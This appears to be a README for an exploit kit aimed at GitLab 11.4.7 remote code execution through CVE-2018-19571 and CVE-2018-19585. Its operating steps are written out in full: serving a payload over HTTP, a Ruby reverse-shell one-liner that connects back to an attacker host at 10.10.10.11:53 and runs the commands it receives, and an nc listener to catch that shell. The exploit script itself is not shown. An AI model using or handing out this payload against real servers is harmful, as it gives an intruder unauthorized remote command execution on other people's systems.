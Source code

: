 ### Exploit for GitLab 11.4.7 RCE (CVE-2018-19571 + CVE-2018-19585)


![](example.png)


You must host your payload on a webserver
```
python3 -m http.server 80
```

This payload should work on most gitlab instances
```sh
export RHOST=10.10.10.11
export RPORT=53
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


In this example we must start our reverse shell handler as well
```
nc -nvlp 53
```


Don't forget to add your web server address on exploit.
And/Or adjust it based on your own preferences.
```
```
